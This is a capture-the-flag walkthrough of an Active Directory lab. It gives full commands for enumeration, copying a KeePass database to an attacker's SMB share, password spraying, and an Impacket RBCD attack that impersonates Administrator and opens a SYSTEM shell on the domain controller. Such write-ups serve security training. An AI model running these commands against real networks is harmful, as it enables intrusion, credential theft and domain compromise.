

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
  actions:
    visible: true
  anchors:
    visible: true
---

# Forward

#### NOTE:&#x20;

This writeup focuses on the practical walkthrough of the Forward challenge, documenting the enumeration process, commands used, key findings, and exploitation steps.

For a deeper understanding of the underlying technologies, protocols, and exploitation techniques, refer to the companion article: [Forward--Technical Deep Dive](forward-technical-deep-dive.md) where I explore the main concepts covered in this challenge in greater detail.

### Overview

Forward is a practical challenge that is built around an assumed breach scenario. Credentials of the user j.smith and corresponding password is provided and we have to navigate through the compromised Active Directory, move laterally through the domain and escalate our way through the domain.&#x20;

* `j.smith` → initial access.
* `t.jones` → credential discovery and account investigation.
* `r.williams` → password reuse and access to RBCD configuration.
* `ATTACKERSYSTEM$` → attacker-controlled delegation principal.
* `Administrator` → impersonated identity.
* SYSTEM shell on DC01 → final execution context.

**Main concepts involved** \
nmap,RDP, KeePass, Active Directory, Bloodhound, Password spraying, Kerberos, RBCD, Impacket<br>

### **Recon**

```
// nmap -sV -sC 10.113.172.120 
```

<figure><figcaption></figcaption></figure>

The above ports were found to be opened.  With the provided credentials we shall start with SMB and LDAP enumeratoin to understand what information the server exposes.

Let us first identify the hostname associated with the target IP. We can use NetExec's `--generate-hosts-file` option to generate a hosts file containing the discovered hostname and IP address. We can then add this entry to `/etc/hosts` to ensure that the domain controller can be resolved locally.

```
// nxc smb 10.113.172.120 -u 'j.smith' -p 'JSmith@IT2024' --generate-hosts-file hosts
```

```
// cat hosts        
10.113.172.120     DC01.ctf.local ctf.local DC01
```

We authenticate as j.smith against SMB via NetExec and enumerate the shares.

```
// nxc smb 10.113.172.120 -u 'j.smith' -p 'JSmith@IT2024' --shares
```

<figure><figcaption></figcaption></figure>

We discovered that the Downloads share was readable, but after accessing it, we found that it contained no files. We also enumerated the remaining shares but did not identify any immediately useful information or exposed resources.

<figure><figcaption></figcaption></figure>


### Initial Access and Enumeration

We focus on using bloodhound to enumerate the target. We use bloodhound-python to get a compressed file that we can then ingest to the bloodhound GUI that we will have started on our computer.&#x20;

```
// bloodhound-python -u 'j.smith' -p 'JSmith@IT2024' -d ctf.local -ns 10.113.172.120 -c All --zip

```

<figure><figcaption></figcaption></figure>

After importing the collected data into BloodHound, we examined the `j.smith` account and identified membership in the Remote Desktop Users and AppLocker-Restricted Groups. This provided a reason to investigate the possibility of accessing the machine through RDP.&#x20;

<figure><figcaption></figcaption></figure>

We therefore rdc to j.smith with the credentials provided and open up a powershell terminal and check what we have in j.smith directories.

```
// xfreerdp /u:j.smith /p:'JSmith@IT2024' /d:ctf.local /v:10.113.172.120
```

<figure><figcaption></figcaption></figure>

### Credential Discovery

Something worth checking pops up and we see that under the Document's folder we have a Database.kdbx file which is database file format used by KeePass and KeePass-compatible password managers. It is encrypted and therefore high value target for offline cracking. We therefore need to get in to our local computer so that we can crack it.&#x20;

We will there host an smbserver and copy the file to our current working directory

```
// /usr/share/doc/python3-impacket/examples/smbserver.py share $(pwd) -username j.smith -password 'JSmith@IT2024' -smb2support -debug
```

<figure><figcaption></figcaption></figure>

```
Copy the file from target to your tun0 address
// PS C:\Users\j.smith\Documents> copy .\Database.kdbx \\192.168.xxx.xxx\share
```

We extracted the password hash from the KeePass database using `keepass2john` and attempted to crack it with John the Ripper using the RockYou wordlist. However, the attempt did not produce a result. This could be due to the master password not being present in the wordlist or the computational cost associated with the database's key derivation function.

```
// keepass2john Database.kdbx > kdbx_hash.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt kdbx_hash.txt
```

We therefore resorted to checking whether we could find anything related to keepass within the system and we came across a KeePass app. We discovered an installed KeePass application on the system. Interestingly, we were able to access the database by clicking OK without manually entering a master password. This provided an alternative way to access the stored credentials without having to crack the database offline.&#x20;

<figure><figcaption></figcaption></figure>

Inside the database, we discovered credentials associated with `t.jones`, who was identified as a Help Desk user. We will use the command runas to login as t.jones and see whether he has any interesting files within his directory but get nothing. Checking the bloodhound for groups that he might be in and unfortunately nothing interesting pops up from his account.

<figure><figcaption></figcaption></figure>

### Lateral Movement

Since we had obtained credentials associated with `t.jones`, we decided to test whether the same password was reused by other domain accounts. First, we used NetExec's RID enumeration functionality to retrieve domain usernames and save them into a file. We then used that list to perform a password-spraying attempt against SMB using the recovered password.

```
// nxc smb 10.113.172.120 -u 't.jones' -p 'REDACTED' --rid | grep "SidTypeUser" | awk -F '\\\\' '{print $2}' | awk '{print $1}' > users
```

```
// nxc smb 10.113.172.120 -u users -p 'REDACTED' --continue-on-success
```

<figure><figcaption></figcaption></figure>

The password-spraying attempt revealed that `r.williams` was using the same password as `t.jones`. We therefore returned to BloodHound to investigate the permissions and group memberships associated with this account.

<figure><figcaption></figcaption></figure>

After discovering `r.williams`, we examined his outbound object-control relationships in BloodHound. We identified that he had the necessary permissions to modify the RBCD configuration of the domain controller. This meant that we could potentially configure an attacker-controlled account to impersonate other users when accessing services hosted by the target computer.

`More information on this attribute can be found in my deep analysis writeups`

[`Forward-Deep Dive Analysis`  ](forward-technical-deep-dive.md)

### Road to Administrator's Flag

Since `r.williams` did not control an appropriate account with an SPN, we created an attacker-controlled computer account using Impacket's `addcomputer.py`. This account would later be used as the delegating principal in the RBCD attac

`addcomputer.py -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Pwned' -dc-host DC01 -domain-netbios ctf.local 'ctf.local/r.williams:REDACTED'`

<figure><figcaption></figcaption></figure>

With the attacker-controlled computer account created, we now needed to configure the target computer to trust it for resource-based constrained delegation. We used Impacket's `rbcd.py` to modify the RBCD configuration on `DC01$`, allowing `ATTACKERSYSTEM$` to impersonate other users when accessing services on the target computer.

```
// rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC01$' -action 'write' 'ctf.local/r.williams:REDACTED'

```

<figure><figcaption></figcaption></figure>

With the RBCD configuration in place, we could request a Kerberos service ticket while impersonating the Administrator account. We used Impacket's `getST.py` to request a ticket for the CIFS service hosted by `DC01`.

```
// getST.py -spn 'cifs/DC01.ctf.local' -impersonate 'Administrator' 'ctf.local/ATTACKERSYSTEM$:Pwned' 
```

<figure><figcaption></figcaption></figure>

After obtaining the service ticket, we configured the `KRB5CCNAME` environment variable to point to the generated Kerberos credential cache.

```
// export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache 
```

We could then use Impacket's `psexec.py` with Kerberos authentication to access the domain controller and obtain an interactive SYSTEM-level shell. From there, we navigated to the Administrator's desktop directory to retrieve the flag.

```
// psexec.py -k -no-pass -dc-ip 10.113.172.120 DC01.ctf.local  
```

<figure><figcaption></figcaption></figure>

